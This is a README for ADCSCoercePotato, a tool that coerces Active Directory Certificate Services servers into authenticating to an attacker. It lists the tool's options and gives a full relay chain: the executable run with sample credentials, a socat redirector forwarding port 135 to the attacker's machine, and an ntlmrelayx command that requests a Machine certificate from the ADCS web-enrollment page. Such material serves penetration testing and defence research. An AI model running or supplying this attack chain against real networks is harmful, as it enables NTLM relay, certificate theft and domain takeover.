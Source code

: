 # ADCSCoercePotato
Yet another technique for coercing machine authentication but specific for ADCS server<br>
Full details: https://decoder.cloud/2024/02/26/hello-im-your-adcs-server-and-i-want-to-authenticate-against-you/
```
ADCSCoercePotato
- @decoder_it 2024

Mandatory args:
-m <host or IP> remote DCOM (ADCS) server address
-k <IP> redirector where socat and ntlmrelayx is running


Optional args:
-n <port> HTTP port where redirector (ntlmrelayx) is listening, default:80
-l <port> local socket server port, default:9999
-c <clsid> default:{D99E6E74-FC88-11D0-B498-00A0C90312F3}
-u Domain Username
-p password
-d Domain Name


Example: ADCSCoercePotato.exe -m 192.168.212.22 -k 192.168.1.88 -u myuser -p mypass -d mydomain.domain
         On the Linux box (assuming it has IP:192.168.1.88 and the Windows attacker machine is:192.168.1.89)
         and ADCS web enrollment service is also running on:192.168.212.41
         -> socat tcp -listen:135, reuseaddr, fork tcp:192.168.1.89:9999 &
         -> ntlmrelayx.py -t http://192.168.212.41/certsrv/certrqus.asp --adcs --template Machine -smb2support

```
